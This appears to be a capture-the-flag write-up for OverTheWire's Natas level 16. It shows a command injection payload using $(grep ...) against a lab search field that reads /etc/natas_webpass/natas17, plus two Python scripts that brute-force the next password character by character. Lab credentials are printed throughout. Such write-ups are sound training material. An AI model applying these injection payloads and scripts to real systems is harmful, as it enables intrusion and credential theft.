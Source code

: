 # Natas CTF Solutions  

## Natas Level 16  

### 🌐 **Challenge Description**  
Natas teaches the basics of server-side web security. Each level consists of a website located at:  
👉 `http://natasX.natas.labs.overthewire.org` (where **X** is the level number).  

---

### 🎯 **Goal**  
- Use **Command Injection** to extract the password from the system.  
- Retrieve the password for the next level.  

---

## 🚀 **Solution**  

### **Step 1: Open the URL**  
Visit:  
```  
http://natas16.natas.labs.overthewire.org  
```  

---

### **Step 2: Enter Login Credentials**  
- **Username:** `natas16`  
- **Password:** Use the password from Natas Level 15:  
```
hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
```  
![Home_Page](https://github.com/user-attachments/assets/6ea9797a-fdd6-4377-8ef3-94ace606d462)

---

### **Step 3: Analyze the Webpage**  
- The page has an **input box** where you can search for a keyword.  
- Viewing the **page source** reveals that the input is processed through a shell command:  
```bash
grep $input /etc/natas_webpass/natas17
```  
- This is vulnerable to **Command Injection** since user input is directly passed into the shell.  
![Source_Code](https://github.com/user-attachments/assets/b2de290e-b9cd-44f8-9771-343e78bb4e16)

---

### **Step 4: Test Command Injection**  
Try injecting the following command:  
```bash
joker$(grep a /etc/natas_webpass/natas17)
```
✅ If the character exists, the page output will NOT contain "jokers"  
✅ If the character does **not** exist, it will return the original search term  

---

### **Step 5: Automate Character Discovery**  
Use this Python script to automate the discovery of valid characters:  

```python
import requests, string

url = 'http://natas16.natas.labs.overthewire.org'
username = 'natas16'
password = 'hPkjKYviLQctEW33QmuXL6eDVfMW4sGo'
charlist = []

characters = string.digits + string.ascii_letters

for char in characters:
    query = '/?needle=joker$(grep ' + char + ' /etc/natas_webpass/natas17)'
    r = requests.get(url + query, auth=(username, password))
    
    if 'jokers' not in r.text:
        charlist.append(char)
        print("Character Found: " + char)
        
print("Valid characters: " + ''.join(charlist))
```

✅ This script:  
- Tests each character using `grep`.  
- If the character is part of the password, `"jokers"` will **not** appear in the output.  
![Pass_Chars](https://github.com/user-attachments/assets/4b9a6614-34cf-4982-9f6e-a55acab14bba)

---

### **Step 6: Brute Force the Password**  
Use this Python script to brute-force the full password:  

```python
import requests

url = 'http://natas16.natas.labs.overthewire.org'
username = 'natas16'
password = 'hPkjKYviLQctEW33QmuXL6eDVfMW4sGo'
secret = ''
passchar = ["0", "5", "7", "8", "9", "b", "h", "j", "k", "o", "q", "s", "v", "w", "C", "E", "F", "H", "J", "L", "N",
            "O", "T"]

for place in range(1, 33):
    for char in passchar:
        tmp = ''.join([secret, char])
        query = '/?needle=jokers$(grep ^' + tmp + ' /etc/natas_webpass/natas17)'
        uri = url + query
        r = requests.get(uri, auth=(username, password))
        
        if 'jokers' not in r.text:
            secret += char
            print(f"Password: {secret}")
            break

print("Final Password: " + secret)
```

✅ This script:  
- Builds the password character by character.  
- Uses `grep ^` to match the beginning of the string.  
- Stops once the correct character is found for each position.  

---

### **Step 7: Explanation**  
✅ The script sends a request with the `grep` command to test each possible character.  
✅ If the correct character is found, `"jokers"` will NOT appear in the output.  
✅ The script repeats the process until all characters are found.  

---

### **Step 8: Retrieve the Password**  
After running the script, the password for **Natas Level 17** is revealed:  
![Password](https://github.com/user-attachments/assets/e27e4b36-cd1e-4a02-b317-8be0c150fdf8)

---

### **✅ Password for Natas Level 17**  
```
EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC
```  

---

## 💡 **Lessons Learned**  
✔️ **Command Injection**: Use careful input sanitization to prevent shell execution vulnerabilities.  
✔️ **Brute Force Strategy**: If you know the pattern, you can reduce the search space and speed up the attack.  
✔️ **Automating Attacks**: Python makes it easier to automate complex attack patterns.  

---

## 🖼️ **Screenshots**  
| Step | Screenshot |  
|------|------------|  
| Step 3 – Page Source with Command Injection | ![Source_Code](https://github.com/user-attachments/assets/b2de290e-b9cd-44f8-9771-343e78bb4e16) |  
| Step 5 – Valid Characters Found | ![Pass_Chars](https://github.com/user-attachments/assets/4b9a6614-34cf-4982-9f6e-a55acab14bba) |  
| Step 8 – Found Password | ![Password](https://github.com/user-attachments/assets/e27e4b36-cd1e-4a02-b317-8be0c150fdf8) |  

---

## 🎯 **Next Level**  
Use the password to access **Natas Level 17**:  
👉 [http://natas17.natas.labs.overthewire.org](http://natas17.natas.labs.overthewire.org)  

---
